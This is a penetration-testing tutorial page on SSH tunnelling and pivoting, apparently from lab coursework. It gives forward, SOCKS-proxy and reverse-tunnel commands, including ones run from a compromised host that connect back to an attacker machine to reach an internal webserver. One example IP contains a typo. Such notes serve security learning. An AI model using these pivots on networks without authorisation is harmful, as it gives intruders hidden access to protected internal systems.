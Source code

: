 # SSH Tunneling/Port Forwarding

Using the standard SSH client and an OpenSSH server, it's possible to create both forward and reverse connections to make SSH "tunnels", which allows us to forward ports and/or create proxies

### Forward Connections

Typically creating a forward (or "local") SSH tunnel is done on Linux servers and less on Windows as Linux servers typically have SSH active and open. This does of course require SSH access to the machine.

Two ways of creating a forward SSH tunnel using the SSH client:

- **Port Forwarding**: This method utilises the **-L** switch, creating a local port. Example: Say we have SSH access to **172.16.0.5** and there is a webserver running **172.16.0.10** , we could use the following command to create a link to the server on **172.16.0.10**: **ssh -L 8000:172.16.0.10:80 user@172.160.0.5 -fN**. From here we could access the webserver on **172.16.0.10** (through **172.16.0.5**) by navigating to port **8000** on our own machine. This would be as simple as entering localhost:8000 as we have now created that tunnel between our machine and the victims network via port **80** on the target and **8000** on our machine. In our command we used the combined switch of **-fN**, this does two things: the **-f** switch backgrounds the shell so that we have our terminal back and the **-N** switch lets SSH know that there is no requirement to execute any commands, it just needs to establish a connection
- **Proxies**: The following command utilises the switch -D to setup a proxy on the port **1337** (arbitrary port can be anything you want, usually best practice to go high as the lower ports often have designated services). **ssh -D 1337 user@172.16.0.5 -fN**. This will enable port **1337** on our attacking machine as a proxy to send data through into the protected network. You can combine this command with proxychains

### Reverse Connections

Reverse connections are very useful (particularly if you have shell access but not ssh access) however, it is significantly riskier as you have to access your attacking machine from the target machine

To create a reverse connection, first you must do a few steps to ensure you can do it safely:

1.  First you have to generate a new set of SSH keys using **ssh-keygen** on your attacking machine. This command will generate a private and public key
2.  Ensure you have a directory **~/.ssh** and **authorised_keys** file then copy the contents of the public key (.pub file) and edit the **~/.ssh/authorised_keys** file that you just created on your attacking machine
3.  In the **authorised_keys** file, on a new line, paste this command **command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty** then paste in the public key. This will prevent a shell being created on your attacking machine

You can now check to see if ssh is running on your attacking system using the command **sudo systemctl status ssh**

If it is not running you can start the service with the following command **sudo systemctl start ssh**

Now that we have our service running and our throwaway keys created we can transfer the private key to the target system so we can create our reverse connection. It's important to note here that this is a throwaway set of SSH keys and that once we finish our connection we need to delete them (and ideally stop SSH if we don't need it running) so that once we finish our attack our victim can't connect to our server, for obvios reason that would be less than ideal

We can use the following command structure to construct a command that will allow us to connect back to our attacking machine from the target machine: **ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN**

In our example case of **172.16.0.10** and **172.16.0.5**. We could use our shell on **172.16.0.5** to give our attacking box (**172.16.0.20**) access to the webserver located at **172.16.0.10**, we could use this command on our compromised machine at **172.16.0.5**: **ssh -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -fN**

Of note is that newer SSH clients allow for the creation of a reverse proxy. The following command could be used to create a reverse proxy assuming the client supports it: **ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN**

Modern Windows clients also come with an inbuilt SSH client available by default which allows us to make use of this technique in Windows systems


